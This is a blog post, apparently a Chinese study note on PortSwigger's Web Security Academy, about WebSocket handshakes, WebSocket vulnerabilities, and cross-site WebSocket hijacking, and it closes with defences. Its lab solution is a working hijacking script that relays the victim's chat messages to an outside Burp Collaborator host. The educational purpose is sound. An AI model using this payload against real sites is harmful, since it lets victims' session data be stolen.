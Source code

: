 ```yaml
---
layout: article
title: WSAcademy 15 -- WebSockets
mathjax: true
key: a00026
cover: /bkgs/1.png
modify_date: 2021-10-19
show_author_profile: true
excerpt_type: html
tag: 
- WSAcademy
- WebSockets
mode: immersive
header:
  theme: dark
article_header:
  type: overlay
  theme: dark
  background_color: '#203028'
  background_image:
    gradient: 'linear-gradient(135deg, rgba(34, 139, 87 , .4), rgba(139, 34, 139, .4))'
    src: /docs/assets/images/cover3.jpg
---
```


这篇是Web Security Academy的WebSockets部分<!--more-->

原文：[WebSockets security vulnerabilities ](https://portswigger.net/web-security/websockets)

## WebSockets

WebSocket通过**HTTP**启动，并通过双向**异步**通信提供**长期**连接。

实际上，任何与常规HTTP相关的web安全漏洞也可能与WebSocket通信相关。

## What are WebSockets?

WebSocket是一种通过HTTP发起的双向全双工通信协议

WebSocket在需要**低延迟**或**服务器发起**的消息的情况下特别有用，例如金融数据的实时馈送。

## How are WebSocket connections established?

常用客户端侧的JS：

```js
var ws = new WebSocket("wss://normal-website.com/chat");
```

**Note**

- WSS：websocket with encrypted TLS connection
- WS：unencrypted connection

为了建立连接，浏览器和服务器**通过HTTP执行WebSocket握手**。浏览器发出WebSocket握手请求，如下所示：

```http
GET /chat HTTP/1.1
Host: normal-website.com
Sec-WebSocket-Version: 13
Sec-WebSocket-Key: wDqumtseNBJdhkihL6PW7w==
Connection: keep-alive, Upgrade
Cookie: session=KOsEJNuflw4Rd9BDNrVmvwBF9rEijeE2
Upgrade: websocket
```

If the server accepts the connection, it returns a WebSocket handshake response like the following:

```http
HTTP/1.1 101 Switching Protocols
Connection: Upgrade
Upgrade: websocket
Sec-WebSocket-Accept: 0FFP+2nmNIf/h+4BP36k9uzrYGk=
```

此时连接持续开启，双方都能发送WebSocket消息

**Note**

Several features of the WebSocket handshake messages are worth noting:

请求和响应中的`Connection` and `Upgrade`标头表明这是WebSocket握手。

`Sec-WebSocket-Version`请求标头指定客户端希望使用的WebSocket协议版本。这通常是13。

`Sec-WebSocket-Key`请求标头包含Base64编码的随机值，该值应在每次握手请求中随机生成。

`Sec-WebSocket-Accept` response标头包含`Sec-WebSocket-Key`请求标头中提交的值的散列，并与协议规范中定义的特定字符串连接。这样做是为了防止错误配置的服务器或缓存代理导致误导性响应。

## Manipulating WebSocket traffic

You can use Burp Suite to Intercept and modify WebSocket messages and Replay and generate new WebSocket messages and Manipulate WebSocket connections.

## WebSockets security vulnerabilities

In principle, practically any web security vulnerability might arise in relation to WebSockets:

- **SQLi**
- Some **blind vulnerabilities using OAST** 
- might lead to **XSS or other client-side vulnerabilities**

### Manipulating WebSocket messages to exploit vulnerabilities

XSS for example

### Manipulating the WebSocket handshake to exploit vulnerabilities

这些漏洞往往涉及设计缺陷，例如：

- 错误信任HTTP头以执行安全决策

  例如X-Forwarded-For。

- 会话处理机制中的缺陷

  因为处理WebSocket消息的会话上下文通常由握手消息的会话上下文决定。

- 应用程序使用的自定义HTTP头引入的攻击面。

### Cross-site WebSocket hijacking

当攻击者从其控制的网站建立**跨域WebSocket连接时**，会出现一些WebSocket安全漏洞

跨站点WebSocket劫持（CSWSH，也称为 cross-origin WebSocket hijacking）涉及WebSocket握手上的跨站点请求伪造（CSRF）漏洞

当WebSocket握手请求**仅依赖HTTP cookie**进行会话处理，并且**不包含任何CSRF令牌或其他不可预测的值**时，就会出现这种情况。



攻击者可以在自己的域上创建恶意网页，从而建立到易受攻击应用程序的跨站点WebSocket连接。应用程序将在受害用户与应用程序的会话上下文中处理连接。

然后，攻击者的页面可以通过连接向服务器发送任意消息，并读取从服务器接收回来的消息内容。这意味着，与常规CSRF不同，攻击者获得与被渗透应用程序的双向交互。

#### What is the impact of cross-site WebSocket hijacking?

- 伪装成受害者用户执行未经授权的操作

- 检索用户可以访问的敏感数据

#### Performing a cross-site WebSocket hijacking attack

由于这是CSRF攻击，首先要检查他们是否受到CSRF保护。

通常需要找到一条握手消息，该消息**仅依赖HTTP cookies进行会话处理**，并且在请求参数中不使用任何令牌或其他不可预测的值。

例如，以下WebSocket握手请求可能易受CSRF攻击，唯一的会话令牌在cookie中传输：

```http
GET /chat HTTP/1.1
Host: normal-website.com
Sec-WebSocket-Version: 13
Sec-WebSocket-Key: wDqumtseNBJdhkihL6PW7w==
Connection: keep-alive, Upgrade
Cookie: session=KOsEJNuflw4Rd9BDNrVmvwBF9rEijeE2
Upgrade: websocket
```

`Sec-WebSocket-Key`头包含一个随机值，用于防止缓存代理时出错，而不是用于保护

```js
lab：
<script>
websocket = new WebSocket('wss://ac851f5a1e6993ab80b247aa00000082.web-security-academy.net/chat')
websocket.onopen = start
websocket.onmessage = handleReply
function start(event) {
websocket.send("READY");
}
function handleReply(event) {
fetch('https://pa3vo56qx2kjqo6lx5ii1mprjip8dx.burpcollaborator.net/?'+event.data, {mode: 'no-cors'})
}
</script>
```

#### How to secure a WebSocket connection

- 使用wss://协议（TLS上的WebSocket）。

- **硬编码**WebSockets端点的**URL**，当然不要将用户可控制的数据合并到此URL中。
- 针对**CSRF**保护WebSocket握手消息，以避免跨站点WebSocket劫持漏洞。

- **将通过WebSocket接收的数据视为双向不可信**。在服务器端和客户端安全地处理数据，以防止基于输入的漏洞，如SQL注入和跨站点脚本。

![2](/pics/WSA/2.jpg)

